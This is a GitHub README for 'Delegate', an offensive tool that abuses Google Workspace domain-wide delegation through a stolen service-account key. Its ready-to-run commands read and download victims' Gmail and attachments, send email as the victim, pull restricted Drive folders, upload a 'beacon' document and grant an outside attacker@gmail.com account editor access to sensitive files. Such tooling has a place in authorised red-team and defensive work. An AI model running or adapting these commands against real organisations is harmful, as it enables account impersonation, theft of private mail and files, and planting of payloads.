 # Delegate
Tool to perform GCP Domain Wide Delegation abuse and access Gmail and Drive data from a compromised Service Account with domain wide delegation permissions configured within Google Workspace.

<img src="./DomainWideDelegation_GCP.png" alt="gcpdelegation" width="800"/>

## Delegate tool usage
### Gmail usage
List all Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a list
```

Read Gmail emails (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read
```

List Gmail folders (Labels)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a folders
```

Download all attachments within the targeted Gmail (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a attachments
```

Read all emails within specified folder (Labels) (limit 200 emails)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a read -f DRAFT
```

Send an email as targeted.delegated@mackinsoncloud.com to jdoe@gmail.com specifying subject and body email content
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m gmail -a send -r jdoe@gmail.com -s "Test Messaage subject" -c "Hello this is a test email"
```

### Drive usage

List all files and folders within the targeted Drive account
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a list
```

Download locally folder Restricted_documents using recursive option (-x)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -f Restricted_documents -x
```

Download locally a specific file secret.txt
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a download -t secret.txt
```

Upload files at user's Drive root folder (My Drive)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -t ./beacon.docx
```

Upload files within specific user's Drive folder or organizational Shared Drive
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -a upload -f Restricted_documents -t ./beacon.docx
```

Modify permissions on specific file or folder (Add external Gmail account with Editor permissions over the file/folder)
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -e attacker@gmail.com
```

Create shared link on specific file or folder for access
```
python3 delegate.py -k ../sa_key.json -i targeted.delegated@mackinsoncloud.com -m drive -f Restricted_documents -t Salary2023.xlsx -l
```